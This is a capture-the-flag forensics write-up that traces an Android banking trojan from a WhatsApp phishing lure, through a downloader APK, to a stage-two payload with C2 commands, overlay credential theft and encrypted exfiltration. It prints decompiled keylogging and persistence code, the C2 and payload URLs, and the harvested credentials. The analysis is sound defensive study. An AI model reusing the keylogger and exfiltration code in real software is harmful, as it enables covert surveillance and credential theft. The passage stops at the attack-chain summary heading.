# PhantomBundle Writeup

This challenge provides a packet capture (`capture.pcap`) recording communications between the victim device and a Command and Control (C2) server, alongside a dumped Android filesystem tree.

---

## Android Filesystem Overview

Android utilizes a Linux-based filesystem structure where system, user, and application data are partitioned into separate storage areas. During forensic triage, two specific locations are critical:

- **/data/user/0/ (App Private Data):** Houses internal application data segregated by package name. Here we find SQLite databases, shared preferences XML files (`shared_prefs`), cached web pages, and sensitive runtime configuration.
- **/data/media/0/ (Shared Storage):** Contains user files, downloads, and shared documents. This area frequently holds valuable artifacts such as third-party chat backups (e.g., WhatsApp databases) and initially downloaded malicious APKs.

Correlating artifacts across both areas is essential to reconstruct the complete timeline of user and application activity.

---

## Task 1: What is the phone number that was used for phishing the victim?

I initially checked standard system SMS databases and call logs, but found nothing suspicious. Shifting focus to messaging apps in shared storage, I inspected `/data/media/0/WhatsApp/Databases/` and located an encrypted database file: `msgstore.db.crypt14`.

In the application's private storage at `/data/data/com.whatsapp/files/`, I recovered the decryption `key` file. Using **WhatsApp Crypt14/15 Decrypter** alongside this key, I successfully decrypted and restored the raw `msgstore.db` SQLite database. Querying the messages table revealed an incoming lure from an unfamiliar phone number.



> **Answer:** `+201552869660`

---

## Task 2: When did the victim last visited the phishing site?

Phishing messages usually direct targets to malicious links. I checked Google Chrome's browsing history database located at `/data/user/0/com.android.chrome/app_chrome/Default/History`. Inspecting the `urls` and `visits` tables showed the exact timestamp when the victim last navigated to the phishing link.



> **Answer:** `2026-02-21 03:35:41`

---

## Task 3: What is the last line of the message content used to lure the victim into downloading the malicious application?

Re-examining the decrypted WhatsApp chat extracted from `msgstore.db` in Task 1 (Image 1), the attacker used an artificial urgency lure to press the victim into acting quickly before the offer expired.

> **Answer:** `Spots are extremely limited – act fast before they're gone!`

---

## Task 4: The threat actor hosted the malicious application on a spoofed Google Play page. What is the account name of the last reviewer displayed on that page?

The phishing link led to a website masquerading as the official Google Play Store to establish trust. In Chrome's cache directory, I discovered a saved MIME HTML snapshot file (`.mhtml`). Examining the HTML source and scrolling down to the user review section revealed the account name of the last reviewer displayed.



> **Answer:** `Lara Croft`

---

## Task 5: What is the URL used by the downloader to download the second-stage malware?

Inside `/data/media/0/Download/`, I found the newly downloaded file `subhubpro.apk`. Decompiling it using JADX revealed its execution flow. In `MainActivity.java`, the code handles downloading an external file, but the target URL is obfuscated inside application resources.



Searching through `res/values/strings.xml`, I located the resource string named `lorem_ipsum`. Decoding this string yielded the direct GitHub download URL for a file disguised as an image (`icon.png`), which is actually the second-stage APK payload.



> **Answer:** `https://github.com/0xS1rx58/updater/releases/download/updater/icon.png`

---

## Task 6: What is the package name of the application executed by the downloader?

Examining `subhubpro.apk` further, I checked the Intent responsible for launching the newly installed application after retrieving `icon.png`. The downloader explicitly targets a package designed to mimic genuine system services via typosquatting (`andorid` instead of `android`).



> **Answer:** `com.andorid.systemui`

---

## Task 7: The malware uses a service to run in the background, silently collecting and exfiltrating data. What is the name of the class/service used to achieve this?

Searching the filesystem for `com.andorid.systemui`, I located the installed stage-2 APK in the `/data/app/` directory under `base.apk`. Decompiling it with JADX revealed 6 Java files under `com.andorid.systemui`.

Looking at `C1AccessibilityService.java`, the class extends Android's `AccessibilityService`. It intercepts UI events (`TYPE_VIEW_TEXT_CHANGED`, `TYPE_VIEW_CLICKED`) to log all keystrokes and exfiltrate user inputs silently in the background.

```java
// C1AccessibilityService.java keylogging snippet
if ((accessibilityEvent.getEventType() == 16 || accessibilityEvent.getEventType() == 8192) && (source = accessibilityEvent.getSource()) != null) {
    CharSequence text = source.getText();
    if (text != null && text.length() > 0) {
        HashMap map = new HashMap();
        map.put("text", text.toString());
        map.put("package", accessibilityEvent.getPackageName() != null ? accessibilityEvent.getPackageName().toString() : "unknown");
        map.put("class", source.getClassName() != null ? source.getClassName().toString() : "unknown");
        map.put("timestamp", Long.valueOf(System.currentTimeMillis()));
        e.d(this, this.f1733c, "keylog_capture", map);
    }
    source.recycle();
}
```

> **Answer:** `C1AccessibilityService`

---

## Task 8: The second-stage malware runs a foreground service to maintain persistence. What is the title of the notification displayed by this service?

To prevent the Android runtime from terminating its background process due to battery or memory optimizations, the malware initiates a Foreground Service. In `C1AccessibilityService.java` -> `onServiceConnected()`, it registers a notification channel named `svc` and displays a persistent fake system notification.

```java
// C1AccessibilityService.java foreground persistence
startForeground(1001, new Notification.Builder(this, "svc")
    .setContentTitle("System Update")
    .setContentText("Downloading...")
    .setSmallIcon(android.R.drawable.ic_dialog_info)
    .setPriority(-1).build());
```

> **Answer:** `System Update`

---

## Task 9: What is the full endpoint URL used by the second-stage malware for Command and Control (C&C) communication?

Scanning additional helper classes in `base.apk`, package `p012i0` handles network communication and command execution. In `a.java`, I spotted a Base64-encoded string. Decoding this string exposed the remote C2 API endpoint.



> **Answer:** `http://107.189.13.21:8080/api`

---

## Task 10: What command in the second-stage malware is responsible for capturing a screenshot of the victim's device, and which component does it use to achieve this?

In the root package, `ScreenshotCaptureActivity.java` utilizes the `MediaProjection` API to capture display frames. Searching where this activity is launched inside `p012i0/g.java` pointed to `case 6` (`b == 6`).



Tracing the C2 command dispatcher in `p012i0/e.java` and `p012i0/g.java`, `case 6` is triggered when the C2 sends command code `71`.



> **Answer:** `71, ScreenshotCaptureActivity`

---

## Task 11: The second-stage malware generates a dynamic encryption key for C2 communication. Provide the encryption key.

Network traffic between the device and the C2 server is encrypted. Inspecting `p012i0/c.java`, the symmetric key is not hardcoded; instead, it is dynamically generated and stored in a shared preferences file named `secure_prefs`.



Navigating to `/data/user/0/com.andorid.systemui/shared_prefs/secure_prefs.xml` on the extracted device filesystem revealed the Base64-encoded key.

> **Answer:** `3BJCjd8ZFBCK/umyWUD9NuWOJE34Uq/p6Lb2kumv37k=`

---

## Task 12: The threat actor delivered a fake bank transaction notification to lure the victim into entering their credentials. What was the fake urgent notification that caused the victim to panic, leading to credential harvesting?

Analyzing `p012i0/e.java`, traffic is encrypted using `AES/CTR/NoPadding`. The first 16 bytes of the decoded Base64 payload serve as the IV, followed by the ciphertext.

```java
// Decryption implementation in p012i0/e.java
public static String a(String str, String str2) throws Exception {
    byte[] bArrDecode = Base64.decode(str, 0);
    byte[] bArr = new byte[16]; // IV
    int length = bArrDecode.length - 16;
    byte[] bArr2 = new byte[length]; // Ciphertext
    System.arraycopy(bArrDecode, 0, bArr, 0, 16);
    System.arraycopy(bArrDecode, 16, bArr2, 0, length);
    Cipher cipher = Cipher.getInstance("AES/CTR/NoPadding");
    cipher.init(2, new SecretKeySpec(Base64.decode(str2, 0), "AES"), new IvParameterSpec(bArr));
    return new String(cipher.doFinal(bArr2), StandardCharsets.UTF_8);
}
```

Using the encryption key from Task 11, I decrypted the HTTP packets in `capture.pcap`. In the payload for command `73`, the C2 delivered a spoofed banking alert notifying the victim of an unauthorized transfer.



> **Answer:** `Unauthorized transfer attempt: USD 2,000 from your account.`

---

## Task 13: Identify the credentials that the threat actor was able to harvest.

Panicked by the fake transfer notification, the victim opened their banking service. Decrypting subsequent HTTP POST exfiltration packets sent back to the C2 server revealed the captured username and password.



> **Answer:** `Ali209714:Ali_3691Pass5`

---

## Task 14: What is the slogan text of the deceptive banking login portal presented to the user by the malware to steal credentials?

To harvest those credentials, the threat actor issued command `74` from the C2 server, which invokes `LoginActivity.java`. In `LoginActivity.onCreate()`, the activity loads the layout `R.layout.activity_login`.



Inspecting `res/layout/activity_login.xml` revealed the slogan displayed on this fake banking interface.



> **Answer:** `NEXT GENERATION BANKING`

---

## Task 15: What is the MITRE ID of the subtechnique used to harvest credentials?

The malware overlays a fraudulent login window on top of legitimate banking applications to intercept user inputs directly through GUI text fields (`EditText`) and transmits them to the attacker. Within the MITRE ATT&CK for Mobile matrix, this maps directly to `T1417.002: GUI Input Capture`.

> **Answer:** `T1417.002`

---

## Attack Chain Summary

Tracing the evidence chronologically, the PhantomBundle intrusion followed a structured 8-step mobile banking attack lifecycle:

